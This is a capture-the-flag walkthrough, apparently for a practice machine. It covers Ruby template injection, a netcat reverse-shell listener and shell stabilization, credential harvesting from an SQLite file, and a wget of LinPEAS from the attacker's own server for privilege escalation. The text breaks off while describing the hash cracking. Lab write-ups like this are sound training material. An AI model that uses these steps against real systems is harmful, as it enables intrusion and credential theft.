 ### Security Assessment Workflow

1. **Initial Reconnaissance with Nmap**
    
    - Identified an open **web service**.
2. **Web Application Analysis**
    
    - Accessed the service and found text input fields that returned user-provided text.
    - Attempted directory fuzzing with Gobuster, but it failed to identify any directories.
    - Observed errors when attempting to inject code, flagged as **malicious input**.
    - Determined that the application was running on **Ruby**.
3. **Server-Side Template Injection (SSTI) Exploitation**
    
    - Translated a server-side template injection (SSTI) exploit into Ruby syntax.
    - Used Burp Suite to test the injection, encoding key characters for URL compliance:
        - For a **new line**: `%0A`
    - Successfully confirmed SSTI exploitation.
4. **Gaining Reverse Shell Access**
    
    - Started a listener on port 9001 using Netcat:
        
        bash
        
        CopiarEditar
        
        `nc -lvnp 9001`
        
    - Verified available interpreters:
        - `which bash` → `/usr/bin/bash`
        - `which python3` → `/usr/bin/python3`
    - Downloaded a Python 3 reverse shell script from **revshells.com**, URL-encoded it, and executed it.
5. **Interactive Shell Setup**
    
    - Stabilized the shell with the following commands:
        
        bash
        
        CopiarEditar
        
        `python3 -c 'import pty; pty.spawn("/bin/bash")'   stty raw -echo; fg   export TERM=xterm`  
        
6. **Post-Exploitation Activities**
    
    - Retrieved the `user.txt` flag.
    - Discovered a file containing **credentials**.
    - Identified the file type with the `file` command.
    - Accessed the file using **SQLite3** and retrieved a hash.
7. **Password Cracking Attempts**
    
    - Attempted to crack the hash using **John the Ripper** and **Hashcat**, but both failed.
    - Decided to explore other approaches.
8. **Privilege Escalation**
    
    - Set up a Python HTTP server:
        
        bash
        
        CopiarEditar
        
        `python3 -m http.server 9090`  
        
    - Used `wget` from the reverse shell to download **LinPEAS**:
        
        bash
        
        CopiarEditar
        
        `wget http://yourIP:9090/linpeas.sh   chmod +x linpeas.sh`  
        
    - Executed LinPEAS to search for sensitive files, focusing on **MAIL** directories.
9. **Password Recovery and Final Steps**
    
    - Found a password structure hint in mail logs.
    - Combined it with the previously retrieved hash and successfully cracked it using **Hashcat**